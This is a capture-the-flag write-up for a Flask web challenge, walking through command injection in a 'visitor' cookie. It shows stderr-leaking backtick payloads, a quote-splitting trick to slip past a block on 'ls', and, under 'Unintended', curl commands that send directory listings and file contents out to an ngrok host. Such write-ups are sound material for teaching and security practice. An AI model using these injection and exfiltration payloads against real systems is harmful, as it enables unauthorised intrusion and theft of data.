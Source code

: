 ## Introduction

![](images/image.png)

A "Are you single, and ready to mingle" kind of website, asking for an input, written in Belarussian.
Once you open the code, you spot a link `/code` which leads to the source code of the website.

## Analysis

The source code:

```py
# unknown funcion called cupid
from internal import cupid

from flask import Flask, render_template, request, send_file, make_response
import subprocess # execute linux commands
import re # regex

app = Flask(__name__, static_url_path='/static')

@app.get("/")
def index():
    # get a cookie named visitor
    # pass it to cupid function, along with subprocess
    # if cupid returns a value, set a cookie named notification
    visitor = request.cookies.get('visitor')
    out = cupid(visitor, subprocess)
    resp = make_response(render_template('index.html'))

    if out:
        resp.set_cookie('notification', out)
    return resp


@app.post("/")
def post():
    # get a form input named pretty-name
    # if it matches the regex, put it in the template
    name = request.form['pretty-name']
    if not re.match(r'^[</>()\'a-zA-Z0-9_]+$', name):
        return render_template('index.html', name='mmmmm no')
    return render_template('index.html', name="Hi "+name)

@app.get("/code")
def code():
    # return the source code
    return send_file(__file__)
```

Basically we have a couple of endpoints to handle, the `GET /` and the `POST /`.
The post endpoint is pretty simple, it just checks if the input matches the regex, and if it does, it returns a template with the input in it. It could be used to inject some SSTI payloads, but the regex is too strict, only allowing alphanumeric characters and underscores, only.

In the `GET /` endpoint, we can see that the `cupid` function is called, and it's passed the `visitor` cookie and the `subprocess` module. Which looks like a good place to start.

Since the `cupid` function is unknown, we can consider it a blackbox and we have to learn its behavior, an our entry will be through the `visitor` cookie. And since it is passed with the `subprocess` module, we can assume that there's something like `subprocess.Popen` or `subprocess.call` in the `cupid` function and a part of the cookie will be passed as an argument or maybe a command. And whatever we get back from the `cupid` function, we will analyze it based on what we get from the `notification` cookie.

We start by `whoami`:

![](images/img1.png)

we get no output, so maybe the command is wrapped? Let's try `&& whoami #` to escape the previous command and comment the rest:

![](images/img2.png)

Nothing yet, a friend of mine always suggests to try to cause an error, so let's try `&& whoa mi #` where `whoa` is a non-existing command:

![](images/img3.png)

And now we get an error inside the `notification` cookie, so we can assume that the `cupid` function is using `subprocess.Popen` and the `visitor` cookie is being used, but we are only getting the `stderr` output, not the `stdout` output. So we have to find a way to leak our data through the `stderr` output.


Assuing there's a file called `flag.txt`, and we read it then execute the output of the file as a command, we will get an error, and the error will contain the flag. So let's try ```&& `whoami` #```:

![](images/img4.png)

We get the output we are seeking using that technique, trying to `ls` the current directory:

![](images/img5.png)

"You wanna list, I got a list too", is the output we get, We assume then that the `ls` is a banned command, to keep things simple, we will try to read all the files in the current directory that contain the piece of the flag `Securinets{`, with the command `grep -r Securinets{ .`:

![](images/img6.png)

And we get the flag directly, which was laying in the path `./.creep/unshown.log`

## Conclusion

## Flag
> `Securinets{N_1f_Ur_Kr33p1nG_pLz_d0nT_l3t_1t_X0w}`


## Other payloads

```sh

&& `find . -type f` #
&& `'l''ls'` # 
# escaping ls with 'l''s' then try to capture file by file and analyse the output
```

## Unintended

### Using Intruders

```sh
&& curl "https://03ea-196-178-137-213.eu.ngrok.io/"`'l''s' -a | tr '\n' '_'`  #
&& curl "https://03ea-196-178-137-213.eu.ngrok.io/"`'l''s' -a .creep | tr '\n' '_'`  #
&& curl "https://03ea-196-178-137-213.eu.ngrok.io/"`'ca''t' .creep/unshown.log`  #
```
